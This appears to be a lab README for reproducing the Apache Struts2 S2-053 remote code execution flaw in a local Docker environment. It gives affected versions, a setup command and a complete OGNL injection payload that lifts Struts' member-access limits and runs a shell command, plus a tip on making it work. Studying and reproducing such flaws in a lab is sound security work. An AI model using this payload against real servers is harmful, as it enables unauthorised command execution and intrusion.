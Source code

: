 # S2-053 Remote Code Execution Vulnerablity

[中文版本(Chinese version)](README.zh-cn.md)

Affected Version: Struts 2.0.1 - Struts 2.3.33, Struts 2.5 - Struts 2.5.10

Details:

 - http://struts.apache.org/docs/s2-053.html
 - https://mp.weixin.qq.com/s?__biz=MzU0NTI4MDQwMQ==&mid=2247483663&idx=1&sn=6304e1469f23c33728ab5c73692b675e

## Setup

```
docker compose up -d
```

After the environment run, you can see a submission page by visiting `http://your-ip:8080/hello.action`.

## Exploit

Struts2 allows parsing OGNL expressions when using the Freemarker template engine. The data is not parsed by OGNL itself, but after being parsed once by Freemarker. It becomes an expression and is parsed by OGNL second time.And remote code execution vulnerablity.

Payload:

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}

```

![](01.png)

PS: Someone said that they could not reproduce the vulnerability. After my test, I found that the **line break** at the end of the above Payload could not be dropped (that is, the payload must be followed by a newline).
